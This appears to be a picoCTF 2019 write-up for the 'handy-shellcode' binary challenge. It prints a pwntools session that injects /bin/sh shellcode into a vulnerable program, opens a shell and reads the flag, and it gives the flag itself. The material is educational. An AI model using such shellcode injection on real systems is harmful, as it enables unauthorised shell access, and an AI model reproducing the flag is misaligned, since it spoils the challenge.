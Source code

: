 <center><h1>Binary</h1></center>
<br><br>
<center><h2>handy-shellcode [50]</h2></center>
<br>
Q: This *[program](/picoctf2019/files/handyShellcodeVuln)* executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_1_ebc60746fee43ae25c405fc75a234ef5 on the shell server. *[Source](/picoctf2019/files/handyShellcodeVuln.c)*.

A: It tells us exactly what to do. Easiest way to spawn a shell would be to use pwn tools with python. Log into the shell server and navigate to ```/problems/handy-shellcode_1_ebc60746fee43ae25c405fc75a234ef5``` which is where the ```vuln``` binary and ```flag.txt``` are stored. Here we are going to spawn our shell. Using the 4 lines of python code below we are able to grab the flag.
```
$ cd /problems/handy-shellcode_1_ebc60746fee43ae25c405fc75a234ef5
/problems/handy-shellcode_1_ebc60746fee43ae25c405fc75a234ef5$ python
>>> from pwn import *
>>> sh = process('./vuln')
[x] Starting local process './vuln'
[+] Starting local process './vuln': pid 2276666
>>> sh.sendlineafter(':\n', asm(shellcraft.i386.linux.sh()))
'Enter your shellcode'
>>> sh.interactive()
[*] Switching to interactive mode
jhh///sh/bin��h�4$ri1�QjY�Q��1�j
                                X̀
Thanks! Executing now...

cat flag.txt
picoCTF{h4ndY_d4ndY_sh311c0d3_2cb0ff39}
```
Flag:```picoCTF{h4ndY_d4ndY_sh311c0d3_2cb0ff39}```
<br>
